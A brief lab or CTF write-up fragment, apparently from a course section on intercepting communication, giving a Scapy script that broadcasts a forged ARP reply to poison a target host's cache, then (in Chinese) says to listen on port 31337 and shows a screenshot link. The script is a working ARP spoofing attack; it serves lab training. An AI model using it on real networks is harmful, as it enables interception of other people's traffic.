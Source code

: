 
## EXP

```py
from scapy.all import *

sender_ip = "10.0.0.2"

sender_mac = "ea:07:6b:bf:a2:ee"

target_ip = "10.0.0.4"

arp_reply = ARP(op=2, psrc=sender_ip, pdst=target_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=sender_mac)

ethernet_frame = Ether(dst="ff:ff:ff:ff:ff:ff")

packet = ethernet_frame / arp_reply

sendp(packet, iface="eth0", verbose=False)
```

随后，再开启31337端口listen即可

## 截图

如图

![image-20241124204821543](./03%20Intercepting%20Communication.assets/image-20241124204821543.png)
